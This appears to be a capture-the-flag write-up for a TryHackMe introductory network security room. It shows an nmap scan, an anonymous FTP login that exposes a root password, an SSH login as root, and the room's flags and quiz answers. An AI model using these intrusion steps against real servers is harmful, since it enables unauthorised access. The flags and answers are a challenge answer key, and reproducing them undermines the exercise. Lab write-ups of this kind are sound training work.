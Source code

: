 ```yaml
---
title:  Network Security 
author: CYB3RM3
name: CYB3RM3 | Network Security 
date: 2022-05-03 21:42:57 +0100
categories: [TryHackMe, Introduction to Cyber Security]
tags: [Red Team, Network]
---
```


Learn about network security, understand attack methodology, and practice hacking into a target server.

THM Room [https://tryhackme.com/room/intronetworksecurity](https://tryhackme.com/room/intronetworksecurity)


## TASK 1 : Introduction
### What type of firewall is Windows Defender Firewall?
"Host firewall: Unlike the firewall appliance, a hardware device, a host firewall is a program that ships as part of your system, or it is a program that you install on your system. For instance, MS Windows includes Windows Defender Firewall, and Apple macOS includes an application firewall; both are host firewalls."

Answer : host firewall

## TASK 2 : Methodology 
### During which step of the Cyber Kill Chain does the attacker gather information about the target? 
Answer : recon

## TASK 3 : Practical Example of Network Security 
###  What is the password in the secret.txt file?

Sanned the target IP with nmap :

```console
root@ip-10-10-141-49:~# nmap 10.10.244.107

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-03 20:37 BST
Nmap scan report for ip-10-10-244-107.eu-west-1.compute.internal (10.10.244.107)
Host is up (0.0030s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:B7:A6:3A:45:FD (Unknown)
```
{: .nolineno }

Then tried to log to the FTP with anonymous. I found a secret.txt file with a password :

```console
root@ip-10-10-141-49:~# ftp 10.10.244.107
Connected to 10.10.244.107.
220 (vsFTPd 3.0.3)
Name (10.10.244.107:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp        425351 Apr 06 11:22 2680-0.txt
-rw-r--r--    1 ftp      ftp           356 Apr 06 11:22 2680.epub
-rw-r--r--    1 ftp      ftp        251857 Apr 06 11:22 55317-0.txt
-rw-r--r--    1 ftp      ftp           358 Apr 06 11:22 55317.epub
-rwxr-xr-x    1 ftp      ftp           214 Apr 06 11:22 backup.sh
-rw-r--r--    1 ftp      ftp            23 Apr 06 11:22 secret.txt
226 Directory send OK.
ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for secret.txt (23 bytes).
226 Transfer complete.
23 bytes received in 0.00 secs (35.0405 kB/s)
ftp> 
```
{: .nolineno }

 In another terminal :

```console
root@ip-10-10-141-49:~# cat secret.txt 
password: ABC789xyz123
```
{: .nolineno }

Answer : ABC789xyz123

### What is the content of the flag.txt in the /root directory?

Connect via SSH with previously found password :

```console
root@ip-10-10-141-49:~# ssh root@10.10.244.107
The authenticity of host '10.10.244.107 (10.10.244.107)' can't be established.
ECDSA key fingerprint is SHA256:IFP+sTfHTDm72Ta2zfK9XjKASr30+ya4ic/ApEIziio.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.244.107' (ECDSA) to the list of known hosts.
root@10.10.244.107's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  3 May 19:38:54 UTC 2022

  System load:  0.15              Processes:             120
  Usage of /:   66.2% of 6.53GB   Users logged in:       0
  Memory usage: 25%               IPv4 address for eth0: 10.10.244.107
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Apr  7 07:53:28 2022 from 10.20.30.1
root@beginner-net-sec:~# ls
flag.txt  snap
root@beginner-net-sec:~# cat flag.txt 
THM{FTP_SERVER_OWNED}
root@beginner-net-sec:~# 
```
{: .nolineno }

Answer : THM{FTP_SERVER_OWNED}

### What is the content of the flag.txt in the /home/librarian directory?

Looking in the other user directory :

```console
root@beginner-net-sec:~# cd /home/librarian/
root@beginner-net-sec:/home/librarian# ls
flag.txt
root@beginner-net-sec:/home/librarian# cat flag.txt 
THM{LIBRARIAN_ACCOUNT_COMPROMISED}
```
{: .nolineno }

Answer : THM{LIBRARIAN_ACCOUNT_COMPROMISED}